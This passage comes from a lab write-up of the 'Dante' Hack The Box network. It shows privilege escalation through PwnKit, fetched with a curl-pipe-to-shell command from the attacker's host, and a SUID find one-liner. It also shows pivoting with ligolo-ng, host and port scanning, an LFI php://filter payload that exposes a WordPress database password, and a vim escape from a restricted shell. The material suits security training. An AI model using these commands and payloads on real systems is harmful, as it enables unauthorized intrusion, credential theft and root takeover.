   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                           
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::33060                :::*                    LISTEN      -                   
tcp6       0      0 :::65000                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -      


╔══════════╣ Users with console
balthazar:x:1002:1002:Balthazar,,,:/home/balthazar:/bin/bash                
james:x:1001:1001:James,,,:/home/james:/bin/bash
root:x:0:0:root:/root:/bin/bash


╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid 
<SNIP>
-rwsr-xr-x 1 root root 313K Feb 17  2020 /usr/bin/find
<SNIP>


╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path                                                              
/usr/bin/amuFormat.sh                                                       
/usr/bin/gettext.sh
```

There many different methods to privesc to `root`;
- [CVE-2021-4034] PwnKit
- SUID set `find` command

Also, I can see that the port 80 is open to service while not open to external.
I can get this page through pivoting or tunneling later.

##### Shell as  `root` on NIX01

1. Privesc through PwnKit

First, let's prepare repository.
Here's the link of it:
https://github.com/ly4k/PwnKit.git

I need to modify `PwnKit.sh` to download `PwnKit` binary not from online but Kali webserver.

Upload it through python webserver.

```bash
┌──(kali㉿kali)-[~/htb/PwnKit]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.110.100 - - [04/Jan/2025 07:44:04] "GET /PwnKit.sh HTTP/1.1" 200 -
10.10.110.100 - - [04/Jan/2025 07:44:04] "GET /PwnKit HTTP/1.1" 200 -
```

Download and run it.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ sh -c "$(curl -fsSL http://10.10.14.16:8000/PwnKit.sh)"
root@DANTE-WEB-NIX01:/home/balthazar/Documents# id
uid=0(root) gid=0(root) groups=0(root),1002(balthazar)
root@DANTE-WEB-NIX01:/home/balthazar/Documents# whoami
root
```

Here I identify **Privilege Escalation Vector via `PwnKit`** vulnerability.
I got `root`!

2. Privesc through SUID `find`

The target has `find` command SUID bit enabled.
According to GTFOBins, I can exploit it to privesc to `root`.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ find . -exec /bin/sh -p \; -quit
# id
uid=1002(balthazar) gid=1002(balthazar) euid=0(root) groups=1002(balthazar)
# whoami
root
```

This is a **Privilege Escalation Vector via `find`** vulnerability.

I got `root`!


### Pivot

I'm going to use `ligolo-ng` for the pivoting.
I need to prepare `agent` and `proxy`, and upload `agent` onto the target server.

Run proxy on kali :

```bash
┌──(kali㉿kali)-[~/htb/ligolo]
└─$ ./proxy -selfcert -laddr 0.0.0.0:443
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: 405D1DD5E4C6E43F49B24A60BD8D2916F87ED4F89D4A8DBC43D74AF09D29B096 
INFO[0000] Listening on 0.0.0.0:443                     
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                          
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                          
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                           
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                            
        /____/                          /____/                             
                                                                           
  Made in France ♥            by @Nicocha30!                               
  Version: 0.7.3                                                           
                                                                           
ligolo-ng » INFO[0033] Agent joined.                                 id=60ae25c3-8d6f-4d2d-b4cc-701d897ecae1 name=root@DANTE-WEB-NIX01 remote="10.10.110.100:40796"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - root@DANTE-WEB-NIX01 - 10.10.110.100:40796 - 60ae25c3-8d6f-4d2d-b4cc-701d897ecae1
[Agent : root@DANTE-WEB-NIX01] » start
[Agent : root@DANTE-WEB-NIX01] » INFO[0050] Starting tunnel to root@DANTE-WEB-NIX01 (60ae25c3-8d6f-4d2d-b4cc-701d897ecae1) 
```

Connect it from the target :

```bash
root@DANTE-WEB-NIX01:/tmp# ./agent -connect 10.10.14.16:443 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.14.16:443"
```

Network setting on kali :

```bash
┌──(kali㉿kali)-[~/htb/ligolo]
└─$ sudo ip tuntap add user kali mode tun ligolo
[sudo] password for kali: 


┌──(kali㉿kali)-[~/htb/ligolo]
└─$ sudo ip link set ligolo up


┌──(kali㉿kali)-[~/htb/PwnKit]
└─$ sudo ip route add 172.16.1.0/24 dev ligolo
[sudo] password for kali: 


┌──(kali㉿kali)-[~/htb/PwnKit]
└─$ ip route
default via 192.168.45.2 dev eth0 proto dhcp src 192.168.45.131 metric 100 
10.10.14.0/23 dev tun0 proto kernel scope link src 10.10.14.16 
10.10.110.0/24 via 10.10.14.1 dev tun0 
172.16.1.0/24 dev ligolo scope link 
192.168.45.0/24 dev eth0 proto kernel scope link src 192.168.45.131 metric 100 
```

Now I can send packet to `172.16.1.0/24` network.


# Internal Penetration Testing

### Ping Sweep

Let's find what hosts are existing in the network.

```bash
root@DANTE-WEB-NIX01:/var/www/html# 
for i in {1..254}; do (ping -c 1 172.16.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;

64 bytes from 172.16.1.5: icmp_seq=1 ttl=128 time=0.997 ms
64 bytes from 172.16.1.10: icmp_seq=1 ttl=64 time=0.423 ms
64 bytes from 172.16.1.12: icmp_seq=1 ttl=64 time=0.411 ms
64 bytes from 172.16.1.13: icmp_seq=1 ttl=128 time=0.548 ms
64 bytes from 172.16.1.17: icmp_seq=1 ttl=64 time=0.424 ms
64 bytes from 172.16.1.19: icmp_seq=1 ttl=64 time=0.402 ms
64 bytes from 172.16.1.20: icmp_seq=1 ttl=128 time=0.292 ms
64 bytes from 172.16.1.100: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 172.16.1.101: icmp_seq=1 ttl=128 time=0.654 ms
64 bytes from 172.16.1.102: icmp_seq=1 ttl=128 time=0.460 ms
```

Except `NIX01` in 172.16.1.100, there are 9 hosts more.

Let me double check with `nmap` command.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sn --disable-arp-ping 172.16.1.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 08:35 EST
Nmap scan report for 172.16.1.1
Host is up (0.26s latency).
Nmap scan report for 172.16.1.5
Host is up (0.38s latency).
Nmap scan report for 172.16.1.10
Host is up (0.26s latency).
Nmap scan report for 172.16.1.12
Host is up (0.41s latency).
Nmap scan report for 172.16.1.13
Host is up (0.25s latency).
Nmap scan report for 172.16.1.17
Host is up (0.38s latency).
Nmap scan report for 172.16.1.19
Host is up (0.18s latency).
Nmap scan report for 172.16.1.20
Host is up (0.18s latency).
Nmap scan report for 172.16.1.100
Host is up (0.25s latency).
Nmap scan report for 172.16.1.101
Host is up (0.25s latency).
Nmap scan report for 172.16.1.102
Host is up (0.30s latency).
Nmap done: 256 IP addresses (11 hosts up) scanned in 12.52 seconds
```

Only one host (172.16.1.1) is found additionally.
Given it's blocking ICMP packet, I guess this is a firewall.

### 172.16.1.1(FW)

Let me check what the host is.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sV 172.16.1.1                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 08:37 EST
Nmap scan report for 172.16.1.1
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx
443/tcp open  ssl/http nginx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.32 seconds
```

It has web service open.
Let's open it with browser.


It is! It shows "pfsense" web page.
Since the Introduction says firewall is out of scope, we can move onto the next target.


### 172.16.1.5(SQL01)

##### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sCV 172.16.1.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 08:49 EST
Nmap scan report for 172.16.1.5
Host is up (0.13s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
21/tcp   open  ftp?
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     500 Syntax error, command unrecognized.
|     Syntax error, command unrecognized.
|   DNSVersionBindReqTCP, RPCCheck: 
|     500 Syntax error, command unrecognized.
|   GetRequest, HTTPOptions, RTSPRequest: 
|     500 Syntax error, command unrecognized.
|   Help: 
|     214-The following commands are recognized:
|     ABOR ADAT ALLO APPE AUTH CDUP CLNT CWD 
|     DELE EPRT EPSV FEAT HASH HELP LIST MDTM
|     MFMT MKD MLSD MLST MODE NLST NOOP NOP 
|     OPTS PASS PASV PBSZ PORT PROT PWD QUIT
|     REST RETR RMD RNFR RNTO SITE SIZE STOR
|     STRU SYST TYPE USER XCUP XCWD XMKD XPWD
|     XRMD
|     Have a nice day.
|   SSLSessionReq: 
|     500 Syntax error, command unrecognized.
111/tcp  open  rpcbind      2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   172.16.1.5\SQLEXPRESS: 
|     Target_Name: DANTE-SQL01
|     NetBIOS_Domain_Name: DANTE-SQL01
|     NetBIOS_Computer_Name: DANTE-SQL01
|     DNS_Domain_Name: DANTE-SQL01
|     DNS_Computer_Name: DANTE-SQL01
|_    Product_Version: 10.0.14393
|_ssl-date: 2025-01-04T13:53:08+00:00; 0s from scanner time.
| ms-sql-info: 
|   172.16.1.5\SQLEXPRESS: 
|     Instance name: SQLEXPRESS
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|     TCP port: 1433
|_    Clustered: false
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-04T03:34:58
|_Not valid after:  2055-01-04T03:34:58
2049/tcp open  nlockmgr     1-4 (RPC #100021)
4444/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:s1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-04T13:52:56
|_  start_date: 2025-01-04T03:34:53
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DANTE-SQL01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:1f:1b (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.62 seconds
```

- It looks like a Window host.
- ftp(21), rpc(135), smb(139,445), mssql(1433), nfs(2049) needs to be investigated.
- Have no idea what the service on port 4444.
- Host name is `SQL01`.
##### ftp(21)

Due to the network issue, I cannot login to ftp target through pivot.
Instead, I can still connect from NIX01 machine.

```bash
root@DANTE-WEB-NIX01:/var/www/html# ftp 172.16.1.5
Connected to 172.16.1.5.
220 Dante Staff Drop Box
Name (172.16.1.5:balthazar): anonymous
331 Password required for anonymous
Password:
230 Logged on
Remote system type is UNIX.
ftp> ls
200 Port command successful
150 Opening data channel for directory listing of "/"
-r--r--r-- 1 ftp ftp             44 Jan 08  2021 flag.txt
226 Successfully transferred "/"
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 Port command successful
150 Opening data channel for file download from server of "/flag.txt"
226 Successfully transferred "/flag.txt"
44 bytes received in 0.00 secs (330.5288 kB/s)

root@DANTE-WEB-NIX01:/var/www/html# cat flag.txt
DANTE{Ther3s_M0r3_to_pwn_so_k33p_searching!}
```

This allows anonymous login.
There's a flag in it, so I downloaded it.

##### smb(139,445)

It doesn't allow guest login.
Couldn't list any shares of the target.

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L 172.16.1.5 -U 'guest' 
Password for [WORKGROUP\guest]:
session setup failed: NT_STATUS_ACCOUNT_DISABLED
```

##### nfs(2049)

I tried to list mount shares, but nothing was found.

```bash
┌──(kali㉿kali)-[~]
└─$ showmount -e 172.16.1.5
Export list for 172.16.1.5:
```

##### mssql(1433)

I think there's no meaning to enumerate this service since we don't have any valid credetial yet..
Let me just run `nmap` scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 172.16.1.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 11:43 EST
Nmap scan report for 172.16.1.5
Host is up (0.30s latency).

Bug in ms-sql-dac: no string output.
Bug in ms-sql-hasdbaccess: no string output.
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   172.16.1.5\SQLEXPRESS: 
|     Target_Name: DANTE-SQL01
|     NetBIOS_Domain_Name: DANTE-SQL01
|     NetBIOS_Computer_Name: DANTE-SQL01
|     DNS_Domain_Name: DANTE-SQL01
|     DNS_Computer_Name: DANTE-SQL01
|_    Product_Version: 10.0.14393
| ms-sql-xp-cmdshell: 
|_  (Use --script-args=ms-sql-xp-cmdshell.cmd='<CMD>' to change command.)
| ms-sql-dump-hashes: 
|_  172.16.1.5\SQLEXPRESS: ERROR: Bad username or password
| ms-sql-config: 
|   172.16.1.5\SQLEXPRESS: 
|_  ERROR: Bad username or password
| ms-sql-tables: 
|   172.16.1.5\SQLEXPRESS: 
|_[172.16.1.5\SQLEXPRESS]
| ms-sql-empty-password: 
|_  172.16.1.5\SQLEXPRESS: 
| ms-sql-info: 
|   172.16.1.5\SQLEXPRESS: 
|     Instance name: SQLEXPRESS
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|     TCP port: 1433
|_    Clustered: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.12 seconds
```

I can only identify the target host's name : SQL01


### 172.16.1.10(NIX02)

##### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sCV 172.16.1.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 11:48 EST
Nmap scan report for 172.16.1.10
Host is up (0.16s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5a:9c:1b:a5:c1:7f:2d:4f:4b:e8:cc:7b:e4:47:bc:a9 (RSA)
|_  256 e2:d5:17:7c:58:75:26:5b:e1:1b:98:39:3b:2c:6c:fc (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dante Hosting
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-04T16:48:53
|_  start_date: N/A
|_nbstat: NetBIOS name: DANTE-NIX02, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.70 seconds
```

##### smb(139,445)

List shares with guest user.

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L 172.16.1.10
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        SlackMigration  Disk      
        IPC$            IPC       IPC Service (DANTE-NIX02 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.16.1.10 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

There is an unusual share named `SlackMigration`.
Let's see what's in it.

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\172.16.1.10\\SlackMigration
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 12 10:39:41 2021
  ..                                  D        0  Thu Aug 25 16:43:55 2022
  admintasks.txt                      N      279  Mon May 18 11:24:22 2020

                13758504 blocks of size 1024. 1540672 blocks available
smb: \> get admintasks.txt
getting file \admintasks.txt of size 279 as admintasks.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat admintasks.txt 
-Remove wordpress install from web root - PENDING
-Reinstate Slack integration on Ubuntu machine - PENDING
-Remove old employee accounts - COMPLETE
-Inform Margaret of the new changes - COMPLETE
-Remove account restrictions on Margarets account post-promotion to admin - PENDING
```

- There might be wordpress files on the web root (`/var/www/html`??)
- There's an employee named `Margaret`.
- `Margaret`'s account will have more permission due to her promotion.
- There might be some files related to `Slack` software.

##### http(80)


Looks like an web hosting site.
Few links are live, while the link parameter might be exploitable like :
`http://172.16.1.10/nav.php?page=about.html`

Let me test it.


It is! I can modify `page` parameter to read server's file outside of web root directory.
This can be identified as **Local File Inclusion** vulnerability.

##### Restricted Shell as `margaret` on NIX02

Let me read several files..

/etc/hosts :

```bash
127.0.0.1 localhost DANTE-NIX02 127.0.1.1 ubuntu # The following lines are desirable for IPv6 capable hosts ::1 ip6-localhost ip6-loopback fe00::0 ip6-localnet ff00::0 ip6-mcastprefix ff02::1 ip6-allnodes ff02::2 ip6-allrouters 
```

This host's name is `NIX02`.

/etc/passwd :

```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 

<SNIP>

frank:x:1000:1000:frank,,,:/home/frank:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin margaret:x:1001:1001::/home/margaret:/bin/lshell
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false sshd:x:127:65534::/run/sshd:/usr/sbin/nologin omi:x:998:997::/home/omi:/bin/false omsagent:x:997:998:OMS agent:/var/opt/microsoft/omsagent/run:/bin/bash nxautomation:x:996:995:nxOMSAutomation:/home/nxautomation/run:/bin/bash 
```

There are several normal users with shell identified : `frank`, `agent`, `nxautomation`
Also, `margaret` might be useful while it has different kind of shell : `/bin/lshell`

If I can read `access.log` this can be led to `LFI2RCE` vulnerability.
However, it doesn't work since I can't read `/var/log/apache2/access.log`.

I ran `nikto` and `gobuster` to scan thoroughly, but none of these found anything useful.

I checked if there's a flag in any user's home directory, and found out that there's a flag in `margaret`'s home directory.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl 172.16.1.10/nav.php?page=../../../../../../../home/margaret/flag.txt
DANTE{LF1_M@K3s_u5_lol}
```

Recall the note found on smb share "Remove wordpress install from web root - PENDING",
my guess is that there is a wordpress webroot is installed on web root (mostly `/var/www/html`).
The most go-to file usually contains critical information is `wp-config.php` file.

Since current webserver doesn't seem to be running on wordpress, `wp-config.php` might be located like the following;

```
└── /var/www/html
    ├── current_webroot_don't_know_what_the_name_is
    │   ├── nav.php
    │   └── index.html
    │  .............
    └── wordpress
        ├── wp-config.php
       .............
```

I tried several times, and found out that I can access `wp-config.php` file via `../wordpress/wp-config.php` path.
Also, I need to use php-filter to read the file since `php` code is not naively displayed on browser.

Here's the URL :
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../wordpress/wp-config.php

And I got the following :

```php-template
┌──(kali㉿kali)-[~/htb]
└─$ echo "PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQ
... <SNIP> ...
sNCg0KLyogVGhhdCdzIGFsbCwgc3RvcCBlZGl0aW5nISBIYXBweSBwdWJsaXNoaW5nLiAqLw0KDQovKiogQWJzb2x1dGUgcGF0aCB0byB0aGUgV29yZFByZXNzIGRpcmVjdG9yeS4gKi8NCmlmICggISBkZWZpbmVkKCAnQUJTUEFUSCcgKSApIHsNCglkZWZpbmUoICdBQlNQQVRIJywgX19ESVJfXyAuICcvJyApOw0KfQ0KDQovKiogU2V0cyB1cCBXb3JkUHJlc3MgdmFycyBhbmQgaW5jbHVkZWQgZmlsZXMuICovDQpyZXF1aXJlX29uY2UgQUJTUEFUSCAuICd3cC1zZXR0aW5ncy5waHAnOw0K" | base64 -d

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME' 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'margaret' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

<SNIP>
```

Here I can find `margaret`'s password : `Welcome1!2@3#`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh margaret@172.16.1.10
margaret@172.16.1.10's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

26 updates can be applied immediately.
3 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Sat Jan  4 12:01:01 2025 from 172.16.1.100
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
margaret:~$ id
*** forbidden command: id
margaret:~$ whoami
*** forbidden command: whoami
```

I got `margaret`'s shell. But it looks somewhat weird.
The commands like `id`, `whoami` are all not working and says "forbidden".
I think we are in a restricted shell.

```bash
margaret:~$ help
cd  clear  exit  help  history  lpath  lsudo  vim
```

Only 8 commands are allowed.

##### Escape from Restricted Shell on NIX02

I found a breakthrough from GTFOBins.
I focused on the last command `vim`.

When we are editing via `vim` command, I can spawn a shell through the following syntax;

```bash
vim

:set shell=/bin/sh
:shell

margaret@DANTE-NIX02:~$ id
uid=1001(margaret) gid=1001(margaret) groups=1001(margaret)
margaret@DANTE-NIX02:~$ whoami
margaret
```

##### Enumeration on NIX02

Let's run `linpeas` to find privesc vectors.

```bash
margaret@DANTE-NIX02:/tmp$ ./linpeas_linux_amd64


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                          
[+] [CVE-2022-2586] nft_object UAF                                          

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: [ ubuntu=(20.04|21.04) ],debian=11
   Download URL: https://haxx.in/files/dirtypipez.c

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   


╔══════════╣ Writable log files (logrotten) (limit 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#logrotate-exploitation    
